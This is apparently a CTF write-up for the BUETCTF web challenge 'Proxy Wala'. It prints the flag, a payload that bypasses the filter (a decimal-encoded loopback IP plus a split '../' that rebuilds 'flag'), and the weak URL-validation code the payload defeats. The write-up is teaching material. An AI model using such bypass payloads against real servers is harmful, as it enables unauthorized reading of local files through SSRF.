 # Name: Proxy Wala
## Category: Web
## Difficulty: Medium (250-150 dynamic)

Mr. John created a Proxy Server to view web contents. He claims it is a secure server and that no one can hack it.

Your challenge is to view `/secret/flag.html`.

**Link:** https://web-challs1.buetctf.xyz/proxywala/
**Author**: [Oxf4h1m](https://fb.com/fa11m)  
**Attachment**: [proxywala.zip](https://drive.google.com/file/d/1xj1HsGFRAmbkWefXasTRZxsv_Kr5RQUk/view?usp=sharing)

### Flag: 
`BUETCTF{W0W!!_r3ad_f1l3_fr0m_s3rv3r_using_lf1}`

### solution: 
payload `file://2130706433/secret/fl../ag.html` 

read the sourcecode from attachment then analyze the filter 
```
def validate_url(url):

    # Blocking File read
    if url.startswith("/") or url.startswith("file:///"):
        return False
    # Add further checks for SSRF or malicious inputs here
    if "localhost" in url or "0.0" in url:
        return False
    return True
```

and 

```
            if 'flag' in url :
                return render_template('403.html', reason="No flag 🚩. No Victory")
            url = url.replace("../", "")
```
